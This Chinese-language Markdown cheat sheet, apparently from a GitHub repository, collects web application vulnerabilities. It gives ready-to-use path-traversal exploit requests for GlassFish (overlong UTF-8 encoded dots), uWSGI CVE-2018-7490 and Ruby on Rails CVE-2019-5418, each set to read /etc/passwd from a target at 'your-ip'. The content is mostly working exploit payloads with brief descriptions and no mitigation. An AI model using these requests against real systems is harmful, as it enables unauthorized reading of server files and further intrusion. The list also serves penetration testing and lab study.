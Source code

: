 ## Web应用漏洞

### GlassFish

GlassFish 是一款强健的商业兼容应用服务器，达到产品级质量，可免费用于开发、部署和重新分发。开发者可以免费获得源代码，还可以对代码进行更改

#### 任意文件读取漏洞

* 漏洞详情
  * java语言中会把%c0%ae解析为\uC0AE，最后转义为ASCCII字符的.（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。
* 漏洞利用

```
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### uWSGI

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

#### CVE-2018-7490

uWSGI 2.0.17之前的PHP插件，没有正确的处理DOCUMENT\_ROOT检测，导致用户可以通过..%2f来跨越目录，读取或运行DOCUMENT\_ROOT目录以外的文件。

```
http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd
```

![image](img/uWSG.png)

### Rails

Ruby on Rails是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。

#### CVE-2019-5418

漏洞影响： Ruby on Rails < 6.0.0.beta3 Ruby on Rails < 5.2.2.1 Ruby on Rails < 5.1.6.2 Ruby on Rails < 5.0.7.2

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```
